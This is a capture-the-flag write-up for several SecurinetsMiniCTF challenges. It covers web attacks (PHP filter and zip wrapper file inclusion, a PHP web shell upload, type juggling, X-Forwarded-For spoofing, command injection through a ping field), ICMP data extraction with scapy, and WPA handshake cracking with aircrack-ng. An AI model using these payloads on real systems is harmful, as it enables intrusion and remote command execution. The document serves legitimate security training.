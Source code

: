 # SecurinetsMiniCTF Writeups #
Hello guys , you will find here writeups of SecurinetsMiniCTF tasks written by Kahla (Meeeeeee ! ) , i want to apologize for the lack of details in these solvers , i really didn't have enough time (exams are sooon :'( ) anyways don't hesitate and contact me if you had any problems 

## Warm Up (535 Pts) ##

![TASK](https://i.imgur.com/JM2d9Dd.jpg)


In this task we are given a simple web page showing an include statement , the idea is simple this is a local file inclusion LFI and our goal is to read flag.php content so we will use php wrappers .

***Payload*** : 
> url/_=php://filter/convert.base64-encode/resource=flag.php
we will then have the flag.php content encoded with base64 , so after decoding it we get our flag 

## No More Warm Up (884 Pts) ##

![TASK](https://i.imgur.com/SbuUjoK.jpg)


In this task we are given an upload page, in fact there are two solutions 

- ***The unintended*** one which i think pretty easy xd :

you only have to upload a php shell with the name "foo.jpg.php"
**Example :**

Content of foo.jpg.php :
```php
<?php system($_GET('command')); ?> 
```
and then we just have to visit 
>/uploads/foo.jpg.php?command=YourCommandHere  

- ***The Intended Solution:***

We can notice that there is a possibility of an LFI in the page parameter but unfortunately all the known php wrappers are filtered (The Author is 3vil)

Because of the existence of the upload feature we can think of the possibility of using the zip wrapper
so firstly we create foo.php file : 
```php
<?php system("YourCommandHere) ; ?>
```

Then we have to compress the file :
> zip foo.zip foo.php

and rename it to foo.jpg :
> mv foo.zip foo.jpg

and finally after uploading the foo.jpg file our payload will be :
>/?page=zip://uploads/foo.jpg%23foo

Now the foo.php will be unzipped and we will have the possibility to execute the command you wrote

## My Hero (884 Pts) ##

![TASK](https://i.imgur.com/iKcmReS.jpg)

We are given a page with php code inside , there are two conditions we need to bypass to have our beloved flag , 

![TASK](https://i.imgur.com/KdtGnwn.png)


- First check :
> if(file_get_contents(@$_GET['__'])==="Kahla is my hero")

in order to bypass this condition we will have to use the input php wrapper 
- The second condition :
>if(strcmp(@$_GET['_'],$pass)==0)

We will exploit php type juggling, in php NULL==0 will return True so we will try to pass an array as a parameter then the strcmp (AnArray,$pass) will return Null 

***Finally this is our payload :***
> /?__=php://input&_[]= 

And don't forget to write the sentence "Kahla is my hero" in the body of the Http request(you can use burp to facilitate things)

## No Clues (1000 Pts) ##

![TASK](https://i.imgur.com/xUL2HVO.jpg)


In this task we got a picture of the admin connecting to a web server through proxies so we can think that maybe we will use X-forwarded-for http header , You can read about it here [LINK](https://en.wikipedia.org/wiki/X-Forwarded-For)

![TASK](https://i.imgur.com/aBTtnLy.jpg)

As we can see in this wikipedia article , the X-forwarded-for header adds automatically the last connected proxy (proxy 3
in our case which is a load balancer maybe)
>    X-Forwarded-For: client, proxy1, proxy2
where the value is a comma+space separated list of IP addresses, the left-most being the original client, and each successive proxy that passed the request adding the IP address where it received the request from. In this example, the request passed through proxy1, proxy2, and then proxy3 (not shown in the header).

so we will add this header to our http request using burp suite: 
>X-Forwarded-For:adminIP,Proxy1,Proxy2 ***(replace each one with its ip address xd)***

Bingo we are now connected as an admin and we have a simple web page that pings any ip we provide , this step is pretty simple by entering :
>11;ls 

we can have an RCE , so our last payload is 
>12;cat z21851ddfde521782z8

## More Than A Crush 2 (991 Pts) ##

![TASK](https://i.imgur.com/ZeMhn9B.jpg)


In this Forensics task , we were given a wireshark capture ,each ICMP packet of type 0 hold within it some raw data that's why we ll extract it using scapy library in python , concatenate all this data and then decode it 

![TASK](https://i.imgur.com/429tPOP.png)


```python
#!/usr/bin/env python

from scapy.all import *
import base64

#EXTRACT RAW FLAG
def extract_flag():
    bin=""
    packets=rdpcap("morecv2.pcapng")
    for pckt in packets :
        if pckt.haslayer(scapy.all.ICMP) :
            if pckt[scapy.all.ICMP].type==0:
                try:
#                     pckt[scapy.all.ICMP].show()
                    bin+=pckt[scapy.all.Raw].load
                except ValueError:
                    continue    
    return bin            

#MAIN

raw_bin=extract_flag()    
#DECODE Base64 AND CREATE THE ZIP FILE
with open("youuupi.zip","wb") as file:
	file.write(base64.b64decode(raw_bin))
```
Finally you only have to unzip the extracted file and then use strings tool to have the flag

## Chonin LvL (713 Pts) ##

![TASK](https://i.imgur.com/PxApLp2.jpg)


This task is pretty simple , we have a pcap file of a handshake so we need to get the password of this access point in order to submit it, we will launch a dictionary attack

>aircrack-ng <filename>.pcap -w /usr/share/wordlists/rockyou.txt

And Bingo the password is ***gohan123***

## ##
I hope you enjoyed the tasks and learned from them, i apologize again for the lack of details , contact me if you faced any problems 
